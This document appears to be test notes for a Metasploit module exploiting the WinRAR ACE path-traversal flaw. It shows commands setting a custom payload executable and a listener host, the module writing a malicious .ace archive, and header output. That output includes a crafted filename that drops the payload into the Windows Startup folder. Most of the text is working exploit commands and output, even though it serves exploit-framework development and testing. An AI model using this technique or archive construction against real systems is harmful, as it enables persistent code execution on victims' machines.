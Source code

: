 ### Test with custom payload, no additional files in archive
Custom payload to be used:
```
msfdev2@automata:~$ ls -la | grep abcdef.exe
-rw-r--r--  1 msfdev2 msfdev2   73802 Apr 16 22:11 abcdef.exe
msfdev2@automata:~$ 
```

Output from Metasploit:
```
msf exploit(windows/fileformat/winrar_ace) > set CUSTFILE /home/msfdev2/abcdef.exe
CUSTFILE => /home/msfdev2/abcdef.exe
msf exploit(windows/fileformat/winrar_ace) > set FILENAME msf2.ace
FILENAME => msf2.ace
msf exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.79.1
LHOST => 172.16.79.1
msf exploit(windows/fileformat/winrar_ace) > exploit

[*] Using a custom payload: abcdef.exe
[*] Payload filename: abcdef.exe
[+] msf2.ace stored at /home/msfdev2/.msf4/local/msf2.ace
msf exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/msf2.ace
volume
    filename    .msf4/local/msf2.ace
    filesize    73972
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x14c6
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x6735f66e
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\abcdef.exe'
    comment     b''
    ntsecurity  b''
```